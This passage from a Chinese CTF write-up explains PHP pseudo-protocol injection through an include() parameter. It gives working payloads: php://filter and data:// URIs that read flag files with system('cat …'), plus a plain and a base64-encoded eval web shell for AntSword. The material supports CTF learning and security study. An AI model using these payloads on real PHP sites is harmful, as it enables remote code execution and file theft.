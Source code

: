 [伪协议](https://segmentfault.com/a/1190000018991087)

```
适用于include（$参数）

?c=include$_GET[a]?>;&a=php://filter/read=convert.base64-encode/resource=flag.php
或者
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>

?c=include$_GET[a]?>&a=各种伪协议

data:text/plain,<?=system("tac fla*");?>

data伪协议的格式:

data://text/plain;base64,

data:资源类型(MIME类型);编码,内容


    
1.c=data://text/plain,<?php system("cat fla*");?>
读flag

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=

data类型扩展
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```

**payload**

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

------

#### web33
